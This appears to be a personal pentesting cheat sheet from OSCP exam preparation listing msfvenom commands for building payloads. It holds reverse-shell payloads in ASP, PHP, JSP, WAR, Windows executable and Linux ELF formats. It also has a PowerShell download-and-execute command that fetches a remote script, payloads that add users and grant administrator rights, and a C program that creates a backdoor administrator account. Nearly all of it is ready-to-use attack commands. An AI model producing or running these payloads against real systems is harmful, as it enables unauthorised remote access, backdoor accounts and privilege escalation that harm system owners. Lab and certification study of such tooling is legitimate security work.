 ```yaml
---
description: Generate payload with MSFvenom
---
```


# Generate Payload

### Listing

```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
msfvenom -l platforms #Platforms
```

{% hint style="info" %}
**Note**: I created this page during my OSCP preparation. All payloads here are for gaining a reverse shell through Netcat, as Metasploit (or Meterpreter) is prohibited.
{% endhint %}

### Web Based Payload

ASP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f asp > asuka.asp
```

PHP Payload

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
echo "<?php" | cat - shell.php > temp && mv temp shell.php
```

JSP Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

WAR Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Windows

Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```

Execute Command

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows \
-p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" \
-f exe > payload.exe
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# x86
msfvenom -a x86 --platform Windows -p \
windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
# x64
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD="net localgroup administrators shaun /add" -f exe > add-admin.exe
```
{% endcode %}

Reverse Shell

{% code overflow="wrap" %}
```bash
# x86
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f exe -o Remote.exe
# x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4443 -f exe -o shell.exe
```
{% endcode %}

### Linux

```bash
# x86
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=1337 \
-e x86/shikata_ga_nai -f elf > asuka-x86.elf
# x64
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp \
LHOST=<IP> LPORT=1337 -e x64/xor_dynamic -f elf > asuka.elf
```

### MSFvenom Payload Creator (MSFPC)

* [https://github.com/g0tmi1k/msfpc](https://github.com/g0tmi1k/msfpc)

### Add Windows User

**adduser.c**

{% code overflow="wrap" %}
```c
#include <stdlib.h>

int main ()
{
	int i;
	i = system ("net user admoon Linuxsec#1337 /add");
	i = system ("net localgroup administrators admoon /add");

		return 0;
}
```
{% endcode %}

Compile:

{% code overflow="wrap" %}
```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
{% endcode %}
